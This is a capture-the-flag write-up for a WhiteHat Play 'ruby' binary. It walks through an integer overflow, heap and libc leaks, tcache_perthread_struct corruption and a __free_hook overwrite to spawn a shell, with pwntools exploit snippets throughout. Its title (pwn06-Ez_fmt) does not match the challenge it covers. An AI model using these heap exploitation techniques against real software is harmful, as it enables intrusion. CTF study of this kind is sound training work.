










# WhiteHat Play 11 - pwn06-Ez_fmt

Original challenge link: https://wargame.whitehat.vn/thuc-hanh

You can also download challenge files in my repo: [pwn08-Ruby.zip](pwn08-Ruby.zip)

There will be 2 files in zip:
- ruby
- libc.so.6

Download and extract, then patch the libc with the binary with `pwninit` and we can get started!

# 1. Find bug

First, let's check the basic information of challenge file:

```bash
$ file ruby
ruby: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=19350a8b8ae9d445a825e30dde9cf417be57a5e9, for GNU/Linux 3.2.0, not stripped

$ checksec ruby
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

This is a 64-bit file without being stripped and with all defences are on. Next, we will decompile the binary with ghidra to get the flow.

The first one is `main()`, it will first read a number and then go to `accessor_create()`, that number will be added 1 and  multiplied by 8:



There is one thing we need to notice is that `number` has data type is `int`, and if the `number` add 1 are multiplied by 8, there might be a overflow here because `iVar1` is type `int`. 

To be clear, if we input with number `536870912` which in hex format is `0x20000000` (4 bytes) and when it is multiplied with 8, the result will be `0x100000000` (5 bytes) and the byte `0x1` will be remove when storing in 32-bit variable --> **Integer Overflow**

After that, while the chunk size to be created is just `0x20` but we can put heap address in the further address due to the limit number `536870912`.

Next, if we type `1`, it will ask the index and get data from user to a 0x30-byte chunk, then it is store in the main chunk created by function `accessor_create()`. It the index has an address, that address will be freed first and the new chunk will be placed at that index.



In another option, it just read data with the specific index. No delete option can be chosen except when we exit.

That's all bug we can find, just **Integer Overflow**. Now let's move on!

# 2. Idea

As I said above, we will want to modify other chunks so with bug **Integer Overflow**, we can place new chunk out of the container chunk. Also with the ability to put chunk at anywhere we want, we can `free()` any chunks we want so that leaking heap and libc will be easy.

And the way to get shell is difficult and I have to view writeup to see how they attack, and the technique is new for me. Because we cannot have 2 freed chunk, we will attack the tcache_perthread_struct to change the count of tcache so that the number of freed chunk will be large and every time we malloc with the same size, it will take the address from tcache first.

Because when we free a 0x40-byte chunk, the count variable for tcache has chunk size is 0x40 is at the first 8 byte of struct so we will free a different chunk which has size of 0x290 and free the tcache_perthread_struct will change that count to a large number.

Also if we want to corrupt tcache_perthread_struct, we will free a chunk which has the suitable size so that the count of that tcache size become the size of a fake chunk, and we just free that chunk as normal and the next malloc will be inside the tcache_perthread_struct.

Summary:
- Stage 1: Leak heap
- Stage 2: Leak libc
- Stage 3: Attach tcache_perthread_struct

# 3. Exploit

### Stage 1: Leak heap

So first, we will pass number `536870912` and then malloc a chunk, put the address inside of that chunk so that when we choose option read, we can get the heap address of that chunk:

```python
write(3, b'')
read(3)

heap_leak = u64(p.recvline()[:-1] + b'\x00\x00')
heap_base = heap_leak - 0x2c0
log.info("Heap leak: " + hex(heap_leak))
log.info("Heap base: " + hex(heap_base))
```

### Stage 2: Leak libc

To leak libc address, we will create a fake chunk which has size of `0x420` and then free this chunk to put it into unsorted bin, and the address of main arena will be written to this chunk:

```python
payload = flat(
    0, 0,
    0, 0x421,
    )
write(4, payload)
for i in range(2, 19):
    write(3 + (i)*8, b'')

payload = flat(heap_base + 0x320, heap_base + 0x320)
write(3 + (19)*8, payload)    # Write first and check if not null --> free

read(4 + (19)*8)              # The first one was placed the new chunk address
libc_leak = u64(p.recvline()[:-1] + b'\x00\x00')
libc.address = libc_leak - 0x1ecbe0
log.info("Libc leak: " + hex(libc_leak))
log.info("Libc base: " + hex(libc.address))
```

### Stage 3: Attach tcache_perthread_struct

The tcache_perthread_struct will have 2 parts, the first `0x40` bytes will be the count for each tcache index, and the second part will contain the top freed chunk for each tcache index. If we free a chunk which has size of `0x40`, that struct will look like as following:





The highlighted number is the number of freed chunks which has size of `0x40` and the address below is the address of chunk which has size of `0x40`.

The interesting thing here is if the count number is `0`, although there is an address, for image above is `0x00005555555592a0`, when we malloc, it will not take the address from tcache but it will take from topchunk. But if the count number is large, every malloc with the size of `0x40` will take the address from tcache first. Hence if the entry address is null, we will get segfault.

So now we will want to change the count and luckily, that count number is at the forward pointer of tcache. So if we free another chunk which has size of `0x290` first and then free the tcache_perthread_struct, which also has size of `0x290`, the forward pointer will be placed and the count number will change to a big number, not just 1.

And then we just write address of `__free_hook` and malloc, then we can overwrite `__free_hook` with system and when we exit, it will execute `system()` for us. So first, we will need a chunk contains string `/bin/sh` at index 0:

```python
write(0, b'/bin/sh\x00')
```

Now, we will want to add an address to the entry of tcache by freeing 1 chunk and overwrite the forward pointer of that freed chunk with an address. To do so, we will malloc a new chunk, then input to that chunk the address of that chunk and when we get the check, that chunk will be freed and the address of that chunk will be put again to that chunk. You can debug what I said to know it clearly because it might be confused:

```python
write(7 + (2)*8, flat(heap_base + 0x360, heap_base + 0x360))
```

Now we have a freed chunk. We will now malloc that chunk again and overwrite the forward pointer to the address of `__free_hook` and the entry will misunderstand that:

```python
write(3 + (3)*8, flat(libc.sym['__free_hook'], 0, 0, 0x290, 0xdeadbeef))
```

I also added the size `0x290` for the fake chunk that we are going to free. Attach with gdb to get the address of fake chunk we will need to free to replace the value `0xdeadbeef`:



So let's check the heap:





So the address we want to free is `0x560d4bbac380`. Let's update the command above:

```python
write(3 + (3)*8, flat(libc.sym['__free_hook'], 0, 0, 0x290, heap_base + 0x380))
```

And now we will want to free the tcache_perthread_struct so we can do that with this following code:

```python
write(4 + (3)*8, b'')
```

Now, we can malloc with chunks in tcache. Allocating 2 chunks and we can overwrite `__free_hook`:

```python
write(1 + (3)*8, b'')
write(5 + (3)*8, flat(libc.sym['system']))
```

Let's check if we overwrite successfully or not:



So now just exit program and we will have shell:

```python
p.sendlineafter(b'irb(main)> ', b'0')
```

In gdb:



Full script: [solve.py](solve.py)

# 4. Get flag



Flag is `WhiteHat{D3f1n3_4n_3rt13t_1n_3ng11sh}`